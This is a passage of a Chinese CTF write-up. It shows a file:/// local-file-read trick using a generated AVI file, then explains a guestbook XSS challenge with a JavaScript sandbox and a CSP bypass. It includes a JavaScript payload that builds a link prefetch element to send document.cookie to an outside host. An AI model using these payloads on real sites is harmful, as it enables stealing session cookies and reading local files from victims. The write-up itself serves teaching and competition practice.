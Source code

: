 ![image.png-194.2kB][3]
```
python3 gen_xbin_avi.py file:////home/s0m3b0dy/flag 3.avi    

flag{U8I6y5hRfmn5M0ViR8im6FAn0GmCb8rg}
```

## guestbook ##

题目本身不太难，不过感觉很多人都对这个题有争议，我就多说几句吧。

题目主要有下面几个条件
聊天版，有CSP（允许unsafe-line），然后有一些sandbox，rname可以修改名字。

ps:这里本来想要详细一点儿，结果题关了...不能截图了

1、首先是sandbox
```
<script>
	//sandbox
	delete window.Function;
	delete window.eval;
	delete window.alert;
	delete window.XMLHttpRequest;
	delete window.Proxy;
	delete window.Image;
	delete window.postMessage;
</script>
```
应该是从0ctf那个题目复制过来的，但是我觉得很常见，没啥问题。

2、然后是CSP
```
Content-Security-Policy	
default-src 'self'; script-src 'self' 'unsafe-inline' 'unsafe-eval'; font-src 'self' fonts.gstatic.com
; style-src 'self' 'unsafe-inline'; img-src 'self'
```
基本都是self

先说正解吧，正解思路比较清楚，既然unsafe-inline，那么我们先获取一个后台的请求再说，bypass csp的方式就那么几种，主要是meta和link两个，测试发现直接传入`<link`就会被替换为hacker。

那么我们可以通过unsafe-inline来构造一个link，那么就不会出现`<link`了

我在[http://lorexxar.cn/2016/10/28/csp-then/](http://lorexxar.cn/2016/10/28/csp-then/)中提到这种攻击方式。
```
var n0t = document.createElement("link");
n0t.setAttribute("rel", "prefetch");
n0t.setAttribute("href", "//ssssss.com/?" + document.cookie);
document.head.appendChild(n0t);
```

这里我们能收到请求，但是cookie里却没东西。这里有一个cookie的路径问题，一会儿也会提到，先简单说一下。

![image.png-93.6kB][4]


  [1]: http://static.zybuluo.com/LoRexxar/hml88kgi4o6fedxcf2b310a2/image.png
  [2]: http://static.zybuluo.com/LoRexxar/ovwsqpqw3m7woxybr5n1rx0a/image.png
  [3]: http://static.zybuluo.com/LoRexxar/fezpkgin6jwtnpw28y6ep02b/image.png
  [4]: http://static.zybuluo.com/LoRexxar/tr0z404vlz8pe1622z4uxpm5/image.png